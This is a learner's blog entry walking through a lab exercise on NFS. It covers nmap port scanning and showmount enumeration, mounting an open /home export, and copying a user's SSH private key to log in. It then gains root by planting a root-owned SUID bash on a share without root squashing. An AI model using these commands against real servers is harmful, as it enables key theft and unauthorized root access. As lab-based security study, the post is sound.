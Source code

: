 ```yaml
---
title: Day 15
date: 2022-04-28
layout: post.njk
---
```


{{ page.date.toDateString }}

I wanted to knock out a module this morning, but I was busy with work again so I'm not getting to this until later.

The frist section is about NFS or [Network File System](https://en.wikipedia.org/wiki/Network_File_System). It just goes over the protocol at a high level but there are more details [here](https://docs.oracle.com/cd/E19683-01/816-4882/6mb2ipq7l/index.html).

I thought this was an interesting section in the reading:
> If someone wants to access a file using NFS, an RPC call is placed to NFSD (the NFS daemon) on the server. This call takes parameters such as:
> - The file handle
> - The name of the file to be accessed
> - The user's, user ID
> - The user's group ID
> These are used in determining access rights to the specified file. This is what controls user permissions, I.E read and write of files.

How do you pass the paramters into the call? Can it be faked? How does the authentication work? I'm guessing most of the exploitations will center around misconfigurations, but I'm curious how it works at a low level.

Here are some more usefule links:

- [datto](https://www.datto.com/blog/what-is-nfs-file-share)
- [sourceforge](http://nfs.sourceforge.net/)
- [arch linux](https://wiki.archlinux.org/title/NFS)

All the questions were easy and in the reading except for the question: what was the most recent version of NFS which I googled and got the answer on wikipedia.


In the enumeration phase of NFS I first learned about [nfs-common](https://packages.ubuntu.com/bionic/nfs-common).

So I first ran a port scan to see what ports are open I ran `nmap -sS <ip> -p-` I ran `-sS` to get information about the services running on the open ports.
I'm not sure if its the box but anytime I run a scan with -p- it's crazy slow.

Ok so that scan was going crazy slow it I changed it to:
> `nmap -sT <ip> -p 1-10000`

and I did it in chunks of 10000 and the results came back almost instantly. I did this up to 65535 and I figured out that there were 7 open ports and the NFS service was running on 2049.

I ran:
> `nmap -sS 10.10.86.162 -p 2049`
>
>`Starting Nmap 7.60 ( https://nmap.org ) at 2022-04-29 03:04 BST`

>`Nmap scan report for ip-10-10-86-162.eu-west-1.compute.internal (10.10.86.162)`

>`Host is up (0.00022s latency).`
>
>`PORT     STATE SERVICE`

>`2049/tcp open  nfs`

>`MAC Address: 02:67:85:2B:62:2F (Unknown)`
>
>`Nmap done: 1 IP address (1 host up) scanned in 0.55 seconds`

Not a ton of info there.

I ran:
>`$ /usr/sbin/showmount -e 10.10.86.162`
>
>`Export list for 10.10.86.162:`
>
>`/home *`

I ran:

>`$ sudo mount -t nfs 10.10.86.162:/home /tmp/mount -nolock`
> 
>`$ cd /tmp/mount`
>
>`$ ls`
>
>`cappucino`

That directory appeared to be a home directory for a user. It contained a .ssh file with an id_rsa. I copied that file out, changed the permissions to `600` and logged in via ssh using

>`ssh -i id_rsa cappucino@<ip>`.

Last part is exploiting NFS!

The reading talks about Root Squashing and the creation of SUID bit files.

So I downloaded the correspoding bash shell from this [github](https://github.com/TheRealPoloMints/Blog/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash). I copied it into the mounted directory. I changed the owner to root via:

>`$ chown root bash`

I added the SUID permission via:
>`$ chmod +sx bash`

>`# ls -l bash`
>
>`-rwsr-sr-x 1 root root 1113504 Apr 29 03:25 bash`

Finally in the ssh session I ran:

> `./bash -p`

the -p flag maintains the permissions of the file.

I then got root and got the flag in the root directory!

This was a great section of the module. I definitely picked up a ton here, and I'm looking forward to the next two sections of this module.